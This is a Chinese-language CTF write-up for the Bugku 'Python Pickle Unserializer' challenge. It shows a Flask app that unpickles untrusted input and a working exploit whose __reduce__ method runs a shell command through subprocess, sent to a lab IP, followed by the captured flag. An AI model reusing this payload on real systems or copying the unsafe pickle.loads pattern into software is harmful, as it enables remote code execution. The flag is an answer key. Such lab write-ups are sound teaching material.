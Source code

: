 # Bugku题解

#### Python Pickle Unserializer

打开环境![image-20240406160306497](Bugku%E9%A2%98%E8%A7%A3.assets/image-20240406160306497.png)

源代码也没有发现什么东西，那么进行dirsearch目录扫描一下

扫出来flag和source两个页面，其中flag页面没用，source页面有源代码

![image-20240406160545262](Bugku%E9%A2%98%E8%A7%A3.assets/image-20240406160545262.png)

```py
#!/usr/bin/python3
# -*- coding: UTF-8 -*-
"""
@ Author: HeliantHuS
@ Codes are far away from bugs with the animal protecting
@ Time:  2021-08-05
@ FileName: main.py
"""
import pickle
import base64
from flask import Flask, request

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    return """
        <title>404 Not Found</title>
        <h1>Not Found</h1>
        <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
    """, 666, [("TIPS", "/source")]

@app.route("/source", methods=["GET"])
def source():
    with open(__file__, "r") as fp:
        return fp.read()

@app.route("/flag", methods=["PUT"])
def get_flag():
    try:
        data = request.json
        if data:
            return pickle.loads(base64.b64decode(data["payload"]))
        return "MISSED"
    except:
        return "OH NO!!!"

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)
```

在get_flag函数当中采用了pickle.loads函数，再结合这道题的名字，不难看出是一个Python反序列化的题目

```py
#!/usr/bin/python3
import subprocess
import pickle
import base64
import httpx
class A(object):
    def __reduce__(self):
        s = '''
import subprocess
r = subprocess.run(
    'cat flag',
    shell=True,
    check=True,
    stdout=subprocess.PIPE,
    stderr=subprocess.STDOUT
)
print(r.stdout.decode())
        '''
        return (subprocess.check_output,(["python3","-c",s],))
a = A()
data = {'payload':base64.b64encode(pickle.dumps(a)).decode()}
r = httpx.put('http://114.67.175.224:12340/flag',json=data)
print(r.text)
```

即可得到flag{971a0c6f889f002d0dddf71d050139dd}